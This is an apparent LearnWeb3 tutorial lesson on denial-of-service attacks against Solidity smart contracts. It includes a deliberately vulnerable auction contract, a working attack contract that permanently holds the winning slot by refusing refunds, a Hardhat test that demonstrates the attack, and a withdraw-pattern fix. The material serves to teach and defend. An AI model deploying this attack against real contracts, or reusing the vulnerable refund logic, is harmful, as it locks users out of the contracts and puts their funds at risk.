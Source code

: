 # 🛡️ Deny users from accessing a smart contract

![image](https://user-images.githubusercontent.com/16539849/174761638-cf7c28d6-f654-4f5b-8fab-569ddc968941.png)

A Denial of Service (DOS) attack is a type of attack that is designed to disable, shut down, or disrupt a network, website, or service. Essentially it means that the attacker somehow can prevent regular users from accessing the network, website, or service therefore denying them service. This is a very common attack which we all know about in web2 as well but today we will try to imitate a Denial of Service attack on a smart contract

<Quiz questionId="545bcf50-01b7-43c6-9abd-d76200651f1c" />
<Quiz questionId="2273400b-2667-4462-a6e1-2076fa078f50" />

## 🤔 Overview

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol` will be used to run a sample auction where it will have a function in which the current user can become the current winner of the auction by sending `Good.sol` higher amount of ETH than was sent by the previous winner. After the winner is replaced, the old winner is sent back the money which he initially sent to the contract.

`Attack.sol` will attack in such a manner that after becoming the current winner of the auction, it will not allow anyone else to replace it even if the address trying to win is willing to put in more ETH. Thus `Attack.sol` will bring `Good.sol` under a DOS attack because after it becomes the winner, it will deny the ability for any other address to becomes the winner.

## ⚒️ Build

### Setting up Hardhat

To start the project, open up your terminal and create a new project directory.

```bash
mkdir denial-of-service
```

Let's start by setting up Hardhat inside the `denial-of-service` directory.

```bash
cd denial-of-service
npm init --yes
npm install --save-dev hardhat @nomicfoundation/hardhat-toolbox
npx hardhat
```

when prompted, choose the `Create a Javascript Project` option and follow the steps.

### Write the Smart Contracts

Let's create the auction contract, named `Good.sol`, with the following code.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        (bool sent, ) = currentWinner.call{value: currentAuctionPrice}("");
        if (sent) {
            currentAuctionPrice = msg.value;
            currentWinner = msg.sender;
        }
    }
}
```

This is a pretty basic contract which stores the address of the last highest bidder, and the value that they bid. Anyone can call `setCurrentAuctionPrice` and send more ETH than `currentAuctionPrice`, which will first attempt to send the last bidder their ETH back, and then set the transaction caller as the new highest bidder with their ETH value.

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.17;

import "./Good.sol";

contract Attack {
    Good good;

    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public payable {
        good.setCurrentAuctionPrice{value: msg.value}();
    }
}
```

This contract has a function called `attack()`, that just calls `setCurrentAuctionPrice` on the `Good` contract. Note, however, this contract does not have a `fallback()` function where it can receive ETH. More on this later.

### Writing the Test

Let's create an attack that will cause the `Good` contract to become unusable. Create a new file under `test` folder named `attack.js` and add the following lines of code to it

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");

describe("Denial of Service", function () {
  it("After being declared the winner, Attack.sol should not allow anyone else to become the winner", async function () {
    // Deploy the good contract
    const Good = await ethers.getContractFactory("Good");
    const goodContract = await Good.deploy();
    await goodContract.deployed();
    console.log("Good Contract's Address:", goodContract.address);

    // Deploy the Attack contract
    const Attack = await ethers.getContractFactory("Attack");
    const attackContract = await Attack.deploy(goodContract.address);
    await attackContract.deployed();
    console.log("Attack Contract's Address", attackContract.address);

    // Now let's attack the good contract
    // Get two addresses
    const [_, addr1, addr2] = await ethers.getSigners();

    // Initially let addr1 become the current winner of the auction
    let tx = await goodContract.connect(addr1).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("1"),
    });
    await tx.wait();

    // Start the attack and make Attack.sol the current winner of the auction
    tx = await attackContract.attack({
      value: ethers.utils.parseEther("3"),
    });
    await tx.wait();

    // Now let's trying making addr2 the current winner of the auction
    tx = await goodContract.connect(addr2).setCurrentAuctionPrice({
      value: ethers.utils.parseEther("4"),
    });
    await tx.wait();

    // Now let's check if the current winner is still attack contract
    expect(await goodContract.currentWinner()).to.equal(attackContract.address);
  });
});
```

Notice how `Attack.sol` will lead `Good.sol` into a DOS attack. First `addr1` will become the current winner by calling `setCurrentAuctionPrice` on `Good.sol` then `Attack.sol` will become the current winner by sending more ETH than `addr1` using the attack function. Now when `addr2` will try to become the new winner, it won't be able to do that because of this check(`if (sent)`) present in the `Good.sol` contract which verifies that the current winner should only be changed if the ETH is sent back to the previous current winner.

Since `Attack.sol` doesn't have a `fallback` function which is necessary to accept ETH payments, `sent` is always `false` and thus the current winner is never updated and `addr2` can never become the current winner

### Test the attack

To run the test, in your terminal pointing to the root directory of this level execute the following command

```bash
npx hardhat test
```

When the tests pass, you will notice that the `Good.sol` is now under DOS attack because after `Attack.sol` becomes the current winner, on other address can becomes the current winner.

<Quiz questionId="cb1beb74-071c-4e66-af53-897663e88a0c" />

## 👮 Prevention

- You can create a separate withdraw function for the previous winners.

Example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract Good {
    address public currentWinner;
    uint public currentAuctionPrice;
    mapping(address => uint) public balances;

    constructor() {
        currentWinner = msg.sender;
    }

    function setCurrentAuctionPrice() public payable {
        require(msg.value > currentAuctionPrice, "Need to pay more than the currentAuctionPrice");
        balances[currentWinner] += currentAuctionPrice;
        currentAuctionPrice = msg.value;
        currentWinner = msg.sender;
    }

    function withdraw() public {
        require(msg.sender != currentWinner, "Current winner cannot withdraw");

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```

<Quiz questionId="0d64b651-3b16-4893-8486-87f3008857a1" />
<Quiz questionId="eae0a815-5407-4ba6-8194-4902ef360a54" />
<Quiz questionId="cdabfe76-94aa-4aaa-90b8-5d3df2d1aa0d" />

## 👋 Conclusion

Hope you learnt something from this level. If you have any questions or feel stuck or just want to say Hi, hit us up on our [Discord](https://discord.gg/learnweb3). We look forward to seeing you there!

<SubmitQuiz />
